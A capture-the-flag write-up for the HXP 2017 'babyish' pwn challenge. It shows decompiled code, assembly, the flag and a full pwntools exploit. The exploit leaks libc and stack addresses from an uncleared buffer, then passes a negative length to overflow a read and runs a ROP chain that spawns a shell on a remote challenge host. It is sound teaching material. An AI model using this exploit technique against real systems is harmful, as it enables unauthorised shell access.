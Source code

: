 ```yaml
---
title: HXP CTF 2017 - babyish
date: '2017-11-24'
lastmod: '2019-04-07T13:46:27+02:00'
categories:
- writeup
- hxp2017
tags:
- pwn
- rop
authors:
- dp_1
---
```


For this challenge we get a small binary that first asks and prints a name and then reads a string.
Our first vulnerability lies in the `greet` function, where the stack allocated buffer isn't cleared before use.

```cpp
void __cdecl greet(FILE *in, FILE *out)
{
  int v2; // eax
  char buf[64]; // [esp+0h] [ebp-48h]

  printf("Enter username: ");
  v2 = fileno(in);
  read(v2, buf, 64u);
  fprintf(out, "Hey %s", buf);
}
```

Thus when the name is printed back, we get access to some stack variables. In particular, we can leak a libc address and a saved `esp` value.
Having all needed addresses, all that's left to do is overflow the second read by giving it a negative length and rop our way from there.

```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // eax
  char buf[64]; // [esp+0h] [ebp-5Ch]
  int len; // [esp+40h] [ebp-1Ch]
  int *v7; // [esp+50h] [ebp-Ch]

  v7 = &argc;
  setbuf(stdout, 0);
  greet(stdin, stdout);
  sleep(1u);
  printf("Enter length: ");
  len = num();
  if ( len > 63 )
  {
    puts("No!");
    exit(1);
  }
  printf("Enter string (length %u): ", len);
  v3 = fileno(stdin);
  read(v3, buf, len);
  puts("Thanks, bye!");
  return 0;
}
```
There is still one small detail, though: at the end of main the saved value of esp is loaded back from the stack, so we actually have to add this value into our payload to make the application work. This is the relevant assembly at the end of main:
```cpp
.text:080487E2 010                 pop     ecx ; This loads the saved esp value
.text:080487E3 00C                 pop     ebx
.text:080487E4 008                 pop     esi
.text:080487E5 004                 pop     ebp
.text:080487E6 000                 lea     esp, [ecx-4] ; And here it is restored
.text:080487E9 000                 retn
```

Finally, we can call system and get a shell:
`hxp{b4bY's_2nd_pwn4bLe}`

---
Full exploit script:
```python
from pwn import *

#r = process('./vuln')
r = remote('35.198.98.140', 45067)

r.recvuntil(':')
r.sendline('AAAABBBBCCCCDDD')
leak = r.recvuntil('Enter length:')
stack_leak = u32(leak[21:25])
libc_base = u32(leak[25:29]) - 0xCD18
print 'libc base:  ' + hex(libc_base)
print 'stack leak: ' + hex(stack_leak)

rop = ''
rop += p32(libc_base + 0x3A840) # system
rop += p32(0x08048471) # pop; ret
rop += p32(libc_base + 0x15CD48) # "/bin/sh"

r.sendline('-4294967286')
r.sendline('A' * 80 + p32(stack_leak + 0x10) + 'A' * 28 + rop)

r.interactive()
```
